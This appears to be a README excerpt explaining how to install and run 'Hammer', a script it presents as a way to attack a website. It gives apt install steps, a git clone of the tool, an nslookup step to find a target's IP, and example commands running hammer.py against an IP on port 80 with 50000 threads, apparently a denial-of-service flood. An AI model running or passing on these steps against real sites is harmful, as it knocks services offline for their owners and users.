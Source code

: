 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s 127.0.0.1  -p 80 -t 50000<br>
example:<br>
$ python hammer.py -s [your ip] -p 80 -t 50000<br>
